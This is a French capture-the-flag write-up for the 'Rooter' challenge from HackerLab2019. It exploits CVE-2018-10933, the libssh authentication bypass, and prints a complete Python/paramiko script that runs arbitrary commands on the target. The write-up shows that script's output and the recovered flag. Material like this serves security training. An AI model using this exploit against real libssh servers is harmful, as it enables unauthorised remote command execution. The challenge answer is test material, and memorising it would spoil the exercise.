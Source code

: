 * * *
# Rooter
> (Miscellaneous, 300 points )
---
## Challenge :
> 51.91.120.156
30000

Pour ce challenge, nous avions en description une adresse ip et un port (**51.91.120.156 30000**). On devra donc lancer une connexion sur cette adresse pour voir l'objectif réel de l'épreuve.
```console
root@Y3HW3_H4CK3R:~/HackerLab2019# nc 51.91.120.156 30000
SSH-2.0-libssh_0.8.1

root@Y3HW3_H4CK3R:~/HackerLab2019#
```
Des recherches effectuées sur la sortie de la commande précédente, nous renvois au **CVE-2018-10933 (libSSH - Authentication Bypass)**. L'idée serait donc de **bypasser l'authentification**, pour pourvoir **exécuter des commandes systèmes**, nous permettant d'extraire le ```flag```. Pour mener à bien cette exploitation ,  nous avions customisé un **script python**.

```python
import sys
import paramiko
import socket

s = socket.socket()
s.connect(("51.91.120.156",30000))
m = paramiko.message.Message()
t = paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
t._send_message(m)
c = t.open_session(timeout=5)
c.exec_command(sys.argv[1])
out = c.makefile("rb",2048)
output = out.read()
out.close()
print (output)

```
Enregistrons notre script sous le nom ```libssh.py```
```console
root@Y3HW3_H4CK3R:~/HackerLab2019# python libssh.py ls
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
ssh_server_fork.patch
sys
tmp
usr
var
root@Y3HW3_H4CK3R:~/HackerLab2019# python libssh.py "cat flag.txt"
CTF_SSH_Exploiter
```

```Flag : ``` **CTF_SSH_Exploiter**